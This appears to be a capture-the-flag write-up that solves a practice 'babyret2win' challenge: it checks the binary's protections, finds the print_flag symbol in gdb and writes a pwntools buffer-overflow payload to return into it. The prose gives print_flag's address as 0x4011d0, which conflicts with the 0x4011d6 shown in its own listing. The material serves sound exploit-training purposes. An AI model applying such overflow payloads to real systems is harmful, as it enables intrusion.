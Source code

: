 # babyret2win

This challenge was incredibly easy, I'm not even sure if its worth it to do a writeup, but here it is anyway.

Download binary from site:

<pre lang="md">$ wget https://ctf.mcpt.ca/media/problem/mXcRUMoBm9VNveWdDtaUYE1jrkkKZyRjNzNvBUhoJrQ/babybof.zip </pre>
Before running it I want to check the basic information. 

```bash 
$ file babyret2win
babyret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6699503ebd1ea7ab332f6db957bce4bd8abea64d, for GNU/Linux 3.2.0, not stripped
```

So, now we know that its a 64 bit ELF program, and not stripped. These are the most important parts. As it's not stripped it should be easy to debug and reverse engineer.

Lets check the protections: 

```shell 
$ checksec --file=babyret2win
[*] '/home/julianb/home/ctf/pwn/babyret2win/babyret2win/babyret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

Perfect! There's no PIE and no canary. We should be free to reverse engineer the program to find the address for the win function. Now we can run the file.

`$ ./babyret2win`

Wow thats a lot of text.... I dont think I'll put it all here as its just explaining how a ret2win works. 
At the end we get an input where we can enter our name. This is where we can do the exploit. 
First I will find the address for the win function with gdb. 

```shell
Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401090  puts@plt
0x00000000004010a0  fgets@plt
0x00000000004010b0  gets@plt
0x00000000004010c0  setvbuf@plt
0x00000000004010d0  fopen@plt
0x00000000004010e0  getc@plt
0x00000000004010f0  _start
0x0000000000401120  _dl_relocate_static_pie
0x0000000000401130  deregister_tm_clones
0x0000000000401160  register_tm_clones
0x00000000004011a0  __do_global_dtors_aux
0x00000000004011d0  frame_dummy
0x00000000004011d6  print_flag
0x0000000000401226  main
0x00000000004013a0  __libc_csu_init
0x0000000000401410  __libc_csu_fini
0x0000000000401418  _fini
(gdb) 
```

So the name of the function we need to return to is `print_flag` and its address is `0x4011d0`. Great. Lets make the exploit!

```python
from pwn import *
import time

elf = context.binary = ELF('./babyret2win')
p = process()

#automate pressing enter 8 times to skip the tutorial
for i in range(8):
	p.sendline('')
	time.sleep(.05)

#create the payload by overflowing the buffer, finding the address for flag and packaging it
payload = b'A' * 56 + p64(elf.sym.print_flag)

p.sendline(payload)
p.interactive()
```

Now lets run it... 

...

Actually lets not, the tutorial is wayy too long so putting the output would mean including all that... yeah you'll just have to take my word for it. 

